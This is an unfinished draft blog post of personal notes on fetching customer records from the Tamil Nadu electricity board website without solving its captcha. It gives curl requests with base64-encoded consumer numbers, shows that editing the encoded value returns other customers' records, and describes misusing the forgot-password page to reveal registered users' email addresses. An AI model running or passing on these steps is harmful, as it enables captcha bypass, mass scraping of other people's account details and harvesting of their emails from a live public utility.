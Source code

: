 :title: How to get TNEB Service Details without capcha
:slug: how-to-get-tneb-service-details-without-capcha
:date: 2015-07-23 11:45:47
:tags: 
:category: 
:author: Arul
:lang: en
:status: draft
:summary: 



VEFOR0VEQ098fDI2NXx8MDA1fHwxODQw



092650051840

curl 'http://tneb.tnebnet.org/newlt/consumerwise_gmc_report.php' --data 'encserno=VEFOR0VEQ098fDI2NXx8MDA1fHwxODQw&rsno=OQ==' --compressed 

base64 of "TANGEDCO||265||005||1840" is VEFOR0VEQ098fDI2NXx8MDA1fHwxODQw

base64 of "09" is OQ==

curl 'http://tneb.tnebnet.org/newlt/consumerwise_gmc_report.php' --data 'encserno=VEFOR0VEQ098fDI2NXx8MDA1fHwxODQw&rsno=OQ==' --compressed

http://tneb.tnebnet.org/newlt/consumerwise_gmc_report.php?encserno=VEFOR0VEQ098fDI2NXx8MDA1fHwxODQw&rsno=OQ==


http://coderstoolbox.net/string/#!encoding=base64&action=decode&charset=us_ascii


TANGEDCO||256||723||4417


http://tneb.tnebnet.org/newlt/consumerwise_gmc_report.php?encserno=VEFOR0VEQ098fDI1Nnx8NzIzfHw0NDE3&rsno=OQ==



Toget all email id from tangetco


https://www.tnebnet.org/awp/userRegister?execution=e2s1

Forgot password. Then fill consumer number.

it will display the email id with submit button. don't do the submit button. 
